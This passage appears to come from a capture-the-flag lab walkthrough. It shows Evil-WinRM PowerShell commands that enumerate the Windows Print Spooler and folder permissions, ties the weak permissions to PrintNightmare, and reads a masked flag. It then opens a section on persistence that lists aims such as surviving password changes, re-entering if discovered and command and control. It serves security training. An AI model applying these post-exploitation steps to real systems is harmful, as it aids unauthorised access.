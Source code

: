 **Location**: Spooler directory  
**Difficulty**: Hard

```powershell
# Check Print Spooler status and permissions
*Evil-WinRM* PS C:\> Get-Service Spooler | Select-Object *

Status      : Running
Name        : Spooler
DisplayName : Print Spooler

*Evil-WinRM* PS C:\> icacls "C:\Windows\System32\spool\drivers\color"

C:\Windows\System32\spool\drivers\color Everyone:(OI)(CI)F
                                         NT AUTHORITY\SYSTEM:(I)(OI)(CI)F
                                         BUILTIN\Administrators:(I)(OI)(CI)F

Successfully processed 1 files; Failed processing 0 files

# Everyone has Full control (F) - Vulnerable to PrintNightmare!

*Evil-WinRM* PS C:\> Get-ChildItem "C:\Windows\System32\spool\drivers\color"

    Directory: C:\Windows\System32\spool\drivers\color

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/5/2025   10:15 AM             24 workstation_spooler_flag.txt

*Evil-WinRM* PS C:\> Get-Content "C:\Windows\System32\spool\drivers\color\workstation_spooler_flag.txt"
FLAG{G*************5}
```

**🎯 FLAG 14 FOUND**: FLAG{G**********5} - Print Spooler vulnerability

**Real-World Impact**: This represents PrintNightmare (CVE-2021-34527), a critical vulnerability that affected all Windows versions!

---

## Phase 6: Persistence Mechanisms

### Understanding Persistence

**Why Persistence Matters**:
- Maintain access after reboots
- Survive password changes
- Enable re-entry if discovered
- Establish command & control

### FLAG 15: Startup Folder
